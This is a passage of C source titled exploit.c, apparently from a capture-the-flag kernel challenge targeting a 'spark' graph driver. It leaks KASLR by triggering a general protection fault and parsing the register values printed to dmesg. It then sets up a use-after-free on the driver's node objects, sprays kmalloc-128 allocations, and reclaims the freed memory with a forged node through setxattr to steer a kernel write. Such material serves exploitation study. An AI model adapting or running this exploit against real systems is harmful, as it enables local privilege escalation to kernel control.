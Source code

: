 ```exploit.c
  FILE *fp = fopen("/tmp/dmesg_leak", "r");
  fscanf(fp, format, \
  fs, &lk_regs.sp, &lk_regs.flags,  fs, &lk_regs.ax, &lk_regs.bx, &lk_regs.cx, \
  fs, &lk_regs.dx, &lk_regs.si, &lk_regs.di,  fs, &lk_regs.bp, &lk_regs.r8, &lk_regs.r9, \
  fs, &lk_regs.r10, &lk_regs.r11, &lk_regs.r12,  fs, &lk_regs.r13, &lk_regs.r14, &lk_regs.r15);
  fclose(fp);
  print_regs(&lk_regs);
}

void forge_fake_node(struct node_struct *fake_node, ulong finalized_idx){
  fake_node->index = 0xdeadbeef;
  fake_node->refcnt = 0xdeadbeef;
  fake_node->is_finalized = 1;    // prevent deeper traversal.
  fake_node->num_edge = 0;
  fake_node->prev_edge = NULL;
  fake_node->next_edge = NULL;
  fake_node->finalized_idx = finalized_idx;
  fake_node->info = NULL;
  memset(&fake_node->mutex_nb, '\x00', 0x20);
  memset(&fake_node->mutex_state, '\x00', 0x20);
}

#define ALLOC_KMALLOC_128(NUM) for(int i=0; i<NUM; ++i) open(DEV_PATH, O_RDWR);

int main(int argc, char *argv[]) {
  if(argc == 2){
    // invoke #GPF and Oops in the child and leak KASLR via dmesg
    // FYI: dmesg is restricted to adm group on the latest Ubuntu by default.
    // cf: https://www.phoronix.com/scan.php?page=news_item&px=Ubuntu-20.10-Restrict-dmesg
    invoke_gpf();
    exit(0);    // unreachable
  }else{
    const char *cmd = malloc(0x100);
    sprintf(cmd, "%s gpf", argv[0]);
    system(cmd); // cause #GPF
    leak_kaslr();
  }

  for(int i = 0; i < N; i++) {
    fd[i] = open(DEV_PATH, O_RDWR);
    assert(fd[i]);
  }

  // distance array became the size of 0x80
  _link(fd[1], fd[3], 0x1);       // fd[2] is used to retrieve the very heap leaked by R11
  for(int ix=3; ix<0x11; ++ix){
    _link(fd[ix], fd[ix+1], 0x1);
  }
  _link(fd[0], fd[1], (ulong)shellcode + 8);     // this link should be at the very last
  close(fd[0]);   // vuln

  // forge fake node
  ulong write_target = lk_regs.sp - spark_graph_query_stack_offset;
  forge_fake_node(&fake_node0,(write_target - lk_regs.r11) / sizeof(ulong));
  ALLOC_KMALLOC_128(0x12);

  // retrieve fd[0]'s node(private_data)
  setxattr("/home/spark", "NIRUGIRI", &fake_node0, sizeof(fake_node0), XATTR_CREATE);
  close(fd[2]);       // retrieve the very heap leaked by R11 when #GPF.
  _finalize(fd[1]);
  // now, node1.info->nodes are... node1 -> node3 -> node4 -> node5 -> ... -> node0x11 (0x10)

  _query(fd[1], fd[1], fd[9]);
```